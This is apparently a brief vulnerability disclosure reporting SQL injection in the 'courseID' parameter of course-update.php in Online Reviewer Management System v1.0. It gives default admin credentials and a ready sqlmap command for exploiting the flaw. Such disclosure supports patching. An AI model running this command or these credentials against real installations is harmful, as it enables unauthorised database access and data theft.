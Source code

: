 # Online Reviewer Management System v1.0 by janobe has SQL injection

BUG_Author: crazychen123

Accessing admin accounts: Username: admin / Password: admin

Vulnerability File: reviewer_0/admins/assessments/course/course-update.php

Parameter "courseID" (GET), exists SQL injection vulnerability

sqlmap command: sqlmap -u "ip/reviewer_0/admins/assessments/course/course-update.php?courseID=1"

sqlmap injection result

![image](https://github.com/hundanchen69/pic/blob/main/injectresult.png)

